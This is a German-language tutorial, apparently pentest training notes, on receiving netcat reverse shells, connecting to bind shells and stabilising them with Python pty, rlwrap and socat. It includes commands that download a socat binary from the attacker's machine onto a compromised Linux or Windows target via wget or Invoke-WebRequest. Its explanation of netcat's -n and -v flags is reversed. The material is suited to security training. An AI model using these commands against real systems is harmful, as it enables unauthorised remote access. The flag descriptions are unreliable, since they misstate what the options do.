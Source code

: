 Netcat ist das traditionelle „Schweizer Taschenmesser“ der Netzwerktechnik. Es wird verwendet, um alle Arten von Netzwerkinteraktionen manuell auszuführen, einschließlich Dinge wie das Abgreifen von Bannern während der Enumeration/Bestandaufnahme des Ziels, aber noch wichtiger für unsere Zwecke ist, dass es verwendet werden kann, um Reverse-Shells zu empfangen und sich mit entfernten Ports zu verbinden, die mit Bind-Shells auf einem Zielsystem verbunden sind. Netcat-Shells sind standardmäßig sehr instabil (leicht zu verlieren), können aber durch Techniken verbessert werden.

# Basic Reverse/Bind Shell

Basic Reverse Shell Syntax mit Erklärung
```
nc -lvnp <portnummer>
```

nc -> Startet NetCat
-l  -> Stellt NetCat in den Listener Mode
-n -> Sorg für einen Verbose output
-v ->  weist netcat an, keine Hostnamen aufzulösen oder DNS zu verwenden
-p -> Indiziert das Netcat auf einem Port der folgt lauschen soll


Basic Bind Shell Syntax
```
nc <Ziel-IP> <Ausgewählter Port>
```


# Stabilisierung der Netcat Shell

### Technik 1: Python

Die erste Technik, ist nur auf Linux-Systemen anwendbar, da auf diesen fast immer Python standardmäßig installiert ist. Dies ist ein dreistufiger Prozess:

Als Erstes verwenden wir den Befehl `python3 -c 'import pty;pty.spawn("/bin/bash")'` der Python verwendet, um eine besser ausgestattete Bash-Shell zu erzeugen; dabei ist zu beachten, dass einige Ziele die angegebene Python-Version benötigen. Wenn dies der Fall ist, muss python je nach Bedarf durch python2 oder python3 ersetzt werden. Jetzt sieht unsere Shell etwas hübscher aus, aber wir können immer noch nicht die Tabulator-Autovervollständigung oder die Pfeiltasten benutzen, und Strg + C beendet die Shell immer noch.

Der zweite Schritt ist: `export TERM=xterm` -- damit haben wir Zugriff auf term-Befehle wie `clear`.

Schließlich (und am wichtigsten) werden wir die Shell mit Strg + Z in den Hintergrund stellen. Zurück in unserem eigenen Terminal verwenden wir `stty raw -echo; fg.` Dies bewirkt zweierlei: Erstens schaltet es unser eigenes Terminal-Echo aus (wodurch wir Zugriff auf die automatische Vervollständigung von Tabulatoren, die Pfeiltasten und Strg + C zum Beenden von Prozessen erhalten). Dann bringt es die Shell in den Vordergrund und beendet den Prozess.

Bebildertes Besipiel:
https://imgur.com/KL79nHJ
### Technik 2: rlwrap

rlwrap ist ein Programm, das, einfach ausgedrückt, den Zugriff auf den Verlauf, die automatische Vervollständigung der Tabulatoren und die Pfeiltasten ermöglicht, sobald man eine Shell erhält. Allerdings muss man sich noch manuell stabilisieren, wenn man in der Lage sein will, Strg + C in der Shell zu verwenden. rlwrap ist unter Kali nicht standardmäßig installiert, also installieren Sie es zuerst mit `sudo apt install rlwrap`.

Um rlwrap zu verwenden, muss ein etwas anderer Listener aufgerufen werden:

```
rlwrap nc -lvnp <Port>
```

Indem wir unserem netcat-Listener „rlwrap“ voranstellen, erhalten wir eine viel besser ausgestattete Shell. Diese Technik ist besonders nützlich, wenn man mit Windows-Shells zu tun hat, die ansonsten bekanntermaßen schwer zu stabilisieren sind. Bei einem Linux-Ziel ist es möglich, die Shell vollständig zu stabilisieren, indem Sie denselben Trick wie in Schritt drei der vorherigen Technik anwenden: Verlassen Sie die Shell mit Strg + Z, verwenden Sie dann stty raw -echo; fg, um die Shell zu stabilisieren und erneut zu starten.

### Technik 3: Socat

Die dritte einfache Möglichkeit, eine Shell zu stabilisieren, besteht darin, eine anfängliche netcat-Shell als Sprungbrett für eine voll ausgestattete socat-Shell zu verwenden. Diese Technik ist allerdings auf Linux-Ziele beschränkt, da eine Socat-Shell unter Windows nicht stabiler ist als eine netcat-Shell. Um diese Methode der Stabilisierung zu erreichen, würden wir zunächst eine statisch kompilierte Socat-Binärdatei (eine Version des Programms, die so kompiliert wurde, dass sie keine Abhängigkeiten hat) auf den Zielrechner übertragen. Ein typischer Weg, dies zu erreichen, wäre die Verwendung eines Webservers auf dem angreifenden Rechner innerhalb des Verzeichnisses, das Ihre socat-Binärdatei enthält (sudo python3 -m http.server 80), und dann, auf dem Zielrechner, die Verwendung der netcat-Shell, um die Datei herunterzuladen. Unter Linux würde dies mit curl oder wget geschehen 

```
wget <LOCAL-IP>/socat -O /tmp/socat
```


Der Vollständigkeit halber: In einer Windows-CLI-Umgebung kann dasselbe mit Powershell durchgeführt werden, indem entweder Invoke-WebRequest oder eine Webrequest-Systemklasse verwendet wird, je nach installierter Powershell-Version . Wir werden die Syntax für das Senden und Empfangen von Shells mit Socat in den kommenden Aufgaben behandeln.

```
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```
oder
```
iwr -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

#### GENAUERES IN EINTRAG SOCAT
